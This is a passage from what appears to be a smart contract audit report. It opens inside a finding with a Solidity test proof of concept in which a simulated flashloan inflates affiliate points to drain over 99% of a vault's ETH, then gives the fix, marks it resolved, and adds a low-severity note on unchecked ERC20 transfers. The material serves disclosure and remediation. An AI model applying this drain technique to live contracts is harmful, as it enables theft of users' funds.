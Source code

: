 ```solidity
    uint256 flashloanAmount = 400 ether;
    vm.deal(Alice, flashloanAmount);

    // Alice uses the flashloan to massively boost affiliatePoints[40]
    vm.startPrank(Alice);
    vault.updatePoints{value: flashloanAmount}(Alice, 40); // attribute huge points to NFT 40

    // Calculate expected reward: nearly all vault ETH (since affiliatePoints[40] >> totalRedeemedAP)
    uint256 points = vault.affiliatePoints(40);
    uint256 expectedETH = vault.quoteAffiliateReward(points);

    // Alice claims the affiliate reward for NFT 40
    vault.claimAffiliateReward(40, points, expectedETH, block.timestamp);

    // Alice repays the flashloan (simulated, not enforced in this test)
    // (In a real attack, Alice would use a contract to atomically repay the flashloan)

    // Assert: Vault is nearly drained, Alice received almost all ETH
    assertApproxEqAbs(address(vault).balance, 0 ether, 2 ether); // less than 2 ETH left
    assertGt(expectedETH, vaultSeed * 99 / 100); // Alice got >99% of vault's ETH

    vm.stopPrank();
}
```

### Recommendation
It is recommended to redesign the affiliate reward calculation to prevent a single large deposit from capturing a disproportionate share of the vault.

**Status:**  
✅ Resolved in commit [cba908a00be3954c2c0cd87b13076ed1fef9d720](https://github.com/PossumLabsCrypto/TopCut/commit/cba908a00be3954c2c0cd87b13076ed1fef9d720).

## **[L-01]** ERC20 `transfer` in `extractTokenBalance` is not compatible with non-standard ERC20 tokens

### Description

The `extractTokenBalance` function currently uses `IERC20(_token).transfer(msg.sender, balanceToken)` to transfer ERC20 tokens. This approach is not compatible with non-standard ERC20 tokens, such as USDT on mainnet, which do not return a boolean value on transfer. In such cases, Solidity will attempt to decode a non-existent return value as a bool, causing a revert. Additionally, tokens that return `false` on a failed transfer (instead of reverting) will result in a silent failure, as the return value is ignored and not checked, potentially leading to loss of funds or unexpected behavior.

### Recommendation

It is recommended to replace the direct call to `IERC20(_token).transfer` with OpenZeppelin's `SafeERC20.safeTransfer` method. This utility handles both non-standard tokens that do not return a value and tokens that return `false` on failure, ensuring compatibility and proper error handling.
